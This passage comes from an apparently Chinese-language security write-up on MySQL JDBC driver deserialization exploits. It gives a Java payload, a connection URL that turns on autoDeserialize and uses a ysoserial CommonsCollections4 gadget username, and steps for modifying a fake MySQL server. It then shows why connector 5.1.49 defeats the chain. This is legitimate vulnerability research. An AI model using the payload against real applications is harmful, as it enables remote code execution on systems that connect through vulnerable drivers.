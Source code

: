             return obj;
        }
    }
}` 

#### [payload](#toc_payload_2)

`String url = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/1462a709-1af9-44cd-b6d4-2a9db43ebdd8.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/83a806c6-4464-4d31-9834-1e133a335e92.png)  
因为调用的是results.getObject(3)，故需修改MySQL\_Fake\_Server代码，server.py 147行，将传入数据第三列改为JAVA序列化字符串。  
[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/459d0245-2453-4b9d-9246-ab6b62ce95c0.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/1b411edf-582f-4e94-88a8-6d95c38af59f.png)

### [5.1.49](#toc_5149)

com.mysql.jdbc.ConnectionImpl#buildCollationMapping()方法（mysql-connector-java 5.1.49）  
5.1.49版本不再调用results.getObject()，此利用链失效

`private void buildCollationMapping() throws SQLException {
    ...
    if (customCharset == null && this.getDetectCustomCollations() && this.versionMeetsMinimum(4, 1, 0)) {
    java.sql.Statement stmt = null;
    ResultSet results = null;

    try {
        customCharset = new HashMap();
        customMblen = new HashMap();
        stmt = this.getMetadataSafeStatement();

        try {
            results = stmt.executeQuery("SHOW COLLATION");

            while(results.next()) {
                //不再调用getObject()
                int collationIndex = results.getInt(3);
                String charsetName = results.getString(2);
                if (collationIndex >= 2048 || !charsetName.equals(CharsetMapping.getMysqlCharsetNameForCollationIndex(collationIndex))) {
                    ((Map)customCharset).put(collationIndex, charsetName);
                }

                if (!CharsetMapping.CHARSET_NAME_TO_CHARSET.containsKey(charsetName)) {
                    ((Map)customMblen).put(charsetName, (Object)null);
                }
            }
            ...` 
